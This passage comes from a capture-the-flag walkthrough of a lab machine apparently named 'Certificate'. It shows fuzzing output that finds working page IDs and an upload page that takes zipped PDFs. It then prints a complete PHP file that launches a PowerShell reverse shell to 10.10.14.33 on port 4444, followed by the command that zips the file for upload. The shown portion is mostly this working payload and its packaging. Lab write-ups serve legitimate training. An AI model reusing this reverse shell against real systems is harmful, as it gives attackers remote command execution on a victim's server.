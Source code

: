 ```bash
19                      [Status: 200, Size: 9821, Words: 880, Lines: 233, Duration: 225ms]
44                      [Status: 200, Size: 9803, Words: 874, Lines: 233, Duration: 231ms]
42                      [Status: 200, Size: 9803, Words: 874, Lines: 233, Duration: 225ms]
48                      [Status: 200, Size: 9803, Words: 874, Lines: 233, Duration: 230ms]

```

Okay, all these numbers are working. Let’s try one of them and see the page.

 

![Description](/assets/images/Certificate/4.png)

Finally, we managed to access the page which accept pdf files included in a zip. First thing to think about is getting a reverse shell.

So I started by building the reverse shell 

```bash
┌──(kali㉿kali)-[~/Downloads/certificate]
└─$ cd malicious 
                                                                                                                                                             
┌──(kali㉿kali)-[~/Downloads/certificate/malicious]
└─$ cat shell.php               
<?php shell_exec("powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.33',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()""); ?>

┌──(kali㉿kali)-[~/Downloads/certificate/malicious]
└─$ zip -r ../malicious.zip ../malicious
  adding: ../malicious/ (stored 0%)
  adding: ../malicious/shell.php (deflated 38%)

```
